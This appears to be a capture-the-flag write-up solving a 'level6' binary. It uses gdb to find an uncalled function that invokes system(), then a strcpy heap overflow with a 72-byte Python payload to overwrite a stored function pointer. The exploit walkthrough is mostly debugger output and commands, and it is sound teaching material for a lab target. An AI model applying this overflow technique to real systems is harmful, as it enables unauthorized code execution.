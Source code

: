 ## level6
The `level6` can be bypassed by bringing you another disturbing creation from the mind of one sick animal who can use a **buffer overflow** and get you stupified.<br>
We are already getting comfortable with this strategy let see what we have here straight
```
(gdb) info functions
All defined functions:

Non-debugging symbols:
0x080482f4  _init
0x08048340  strcpy                           <---- Vunerable
0x08048340  strcpy@plt
0x08048350  malloc
0x08048350  malloc@plt
0x08048360  puts
0x08048360  puts@plt
0x08048370  system
0x08048370  system@plt
0x08048380  __gmon_start__
0x08048380  __gmon_start__@plt
0x08048390  __libc_start_main
0x08048390  __libc_start_main@plt
0x080483a0  _start
0x080483d0  __do_global_dtors_aux
0x08048430  frame_dummy
0x08048454  n                             <---- Never called (So here is the bounty)
0x08048468  m
0x0804847c  main
0x080484e0  __libc_csu_init
[...]
```
Dsisassembling `main()` we can see two call to `malloc()` 
```
0x08048485 <+9>:	movl   $0x40,(%esp)
0x0804848c <+16>:	call   0x8048350 <malloc@plt>
0x08048491 <+21>:	mov    %eax,0x1c(%esp)
0x08048495 <+25>:	movl   $0x4,(%esp)
0x0804849c <+32>:	call   0x8048350 <malloc@plt>
```
We know from the disassembled code that those `0x40 (64) bytes` will be the buffer where `strcpy()` will copy the argument we passed at the start of the prgram and
the `x04` will be used to store the __address__ of the function `m()` in the *heap* that the only purpose in life *(yes functions now have a life :p)* is to print __*Nope*__ and
as you may guess by now, our only purpose in life *(does hackers have a life ?)* is to write enough garbage in the buffer passed to `strcpy()` and put the __address__
with the `n()` function that contains the `system()` call into those `0x4 bytes` *heap* __address__ .
<br> Let's go back to our friendly website [buffer-overflow-generator](https://wiremask.eu/tools/buffer-overflow-pattern-generator/) and grab the 200 characters long poison,
next let's fire up `GDB` and see what we can do: <br>
```
(gdb) r [pattern]
Program received signal SIGSEGV, Segmentation fault.
0x41346341 in ?? ()
```
Writing a buffer large enough we can go outside the boundary of the `64 bytes` __address__ and overwirte the pinter in the *heap* to the `m()` function with the 
`n()` function __address__.<br>
If we go back to *buffer-overflow-generator* and paste this __address__ *(0x41346341)* in *Find the offset*  we get our **offset** `72`<br> find the `n()` function __address__
```
(gdb) disas n
   0x08048454 <+0>:	push   %ebp                      <---- here we have it (remember little end first)
   0x08048455 <+1>:	mov    %esp,%ebp
   0x08048457 <+3>:	sub    $0x18,%esp
   0x0804845a <+6>:	movl   $0x80485b0,(%esp)
   0x08048461 <+13>:	call   0x8048370 <system@plt>
   0x08048466 <+18>:	leave
   0x08048467 <+19>:	ret
```
<br>now all we need to do is create a string with
72 random caracters plus the `n()` __address__, it should look like something like this<br>
```
python -c "print 'A' * 72 + '\x54\x84\x04\x08'" > /tmp/poison

~$ ./level6 `cat /tmp/poison`
f73dcb7a06f60e3ccc608990b0a046359d42a1a0489ffeefd0d9cb2d7c9cb82d
```
